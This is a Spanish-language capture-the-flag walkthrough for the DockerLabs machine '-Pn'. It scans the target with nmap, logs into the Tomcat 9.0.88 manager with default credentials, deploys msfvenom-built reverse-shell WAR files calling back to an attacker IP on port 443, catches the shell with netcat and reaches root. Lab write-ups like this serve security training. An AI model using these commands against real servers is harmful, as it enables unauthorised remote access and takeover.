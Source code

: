 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "-Pn".
Una vez hecho y COMO SIEMPRE, descomprimimos el archivo, e inicializamos la maquina con el comando:
```
sudo bash auto_deploy.sh pn.tar
```
Lo primero de todo, tras desplegarse la maquina, es hacer un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 172.18.0.2 -n -Pn -vvv
```
Una vez terminado, vemos que tiene  abierto el puerto 8080 donde corre un Tomcat.
```
8080/tcp open  http    syn-ack ttl 64 Apache Tomcat 9.0.88
|_http-title: Apache Tomcat/9.0.88
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Apache Tomcat
MAC Address: 02:42:AC:11:00:02 (Unknown)

```
Vamos pues a acceder al puerto 8080, por lo que vamos a poner la IP de la maquina victima seguida del puerto en el navegador Web y vemos que sale la pagina por defecto del Apache Tomcat.
Se puede observar tambien que hay una parte, en la linea del "tomcat9-admin" donde pone "manager webapp" donde pincharemos y se nos abrira un panel Login.
Hay que entender ahora una cosa y es que, por defecto, Apache Tomcat ya viene con unas credenciales por defecto.
Para obtenerlas, buscamos en Google "hacktricks apache tomcat default credentials" y en la propia Web de "hacktricks" iremos al siguiente enlace:
	https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat
Una vez estemos en esta pagina, iremos a la seccion donde pone "Default credentials" donde se veran varias posibles contraseñas, las cuales habria que ir probando una por una
Un truquito, aunque no siempre funciona, seria darle a "Cancel" en el panel de Login, y al darnos el error 401 de "No autorizado" suelen dar las credenciales.
Pero como como acabo de decir, NO siempre funciona.
```
401 Unauthorized

You are not authorized to view this page. If you have not changed any configuration files, please examine the file conf/tomcat-users.xml in your installation.

That file must contain the credentials to let you use this webapp.

For example, to add the manager-gui role to a user named tomcat with a password of s3cret, add the following to the config file listed above.

	<role rolename="manager-gui"/>
    <user username="tomcat" password="s3cr3t" roles="manager-gui"/>
```
Bien, ya sabiendo el usuario y la contraseña, hacemos login, vamos al panel de administracion de Tomcat y nos ubicamos en la zona donde pone "WAR file to deploy", donde podremos subir archivos maliciosos en formato ".war" para poder ganar acceso a dicha maquina victima.
¿Y como creo un archivo malicioso? EXACTO !!! Con MSFVENOM !!!
```
msfvenom -p java/shell_reverse_tcp LHOST=IPMAQUINAATACANTE LPORT=PUERTOMAQUINAATACANTE -f war -o NOMBREARCHIVOQUEQUERAMOS.war
            
	-p java/shell_reverse_tcp = ponemos el payload reverse shell de JAVA debido a que los archivos ".war" funcionan con JAVA
```
 Una vez tengamos el archivo, lo subiremos y probaremos si funciona. ¿Por que digo probaremos si funciona? Porque lo normal es que lo haga, pero muchas veces, y dependiendo de como este hecho el servidor puede funcionar o no. Para ello, vamos a ver dos opciones (bueno, en realidad 2 Payloads diferentes):
```
1) msfvenom -p java/shell_reverse_tcp LHOST=192.168.1.150 LPORT=443 -f war -o reverse1.war

2) msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.150 LPORT=443 -f war -o reverse2.war
```
Como he dicho antes, esto depende de come este configurado el servidor Tomcat, por lo que asi nos aseguramos que alguno de los dos funcione.
Ahora subimos los dos y nos apareceran en la pantalla de control del Tomcat Web Manager App:
```
/reverse1 	None specified 	  	true 	0 	 Start with idle ≥  minutes 
/reverse2 	None specified 	  	true 	0 	 Start with idle ≥  minutes 
```
Perfecto, ya tenemos los dos archivos subidos. Lo siguiente, COMO SIEMPRE, es ponernos a la escucha con NETCAT usando el comando:
```
nc -nlvp 443
```
y ejecutar los archivos uno por uno para ver cual de los dos funciona (o los 2 :P)
Ejecutado el primero, ya vemo que SI funciona:
```
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 36530  
```
Perfecto !! Ahora sin embargo, hay que hacer, COMO SIEMPRE, un tratamiento de la TTY escribiendo lo siguiente:
```
(El tratamiento TTY SIEMPRE es igual)

	script /dev/null -c bash
	Ahora presionamos (CTRL + Z)
	stty raw -echo; fg
	reset xterm
	export TERM=xterm
	export SHELL=bash
```
Una vez terminado el tratamiento de la TTY, vemos que ya somos "root", pero para asegurarnos, escrimos "whoami" y listo :) !!
```
root@aad1731916f7:/# whoami
root

root@aad1731916f7:/# 
```
Y en principio, con esto ya estaria la maquina "-Pn" terminada.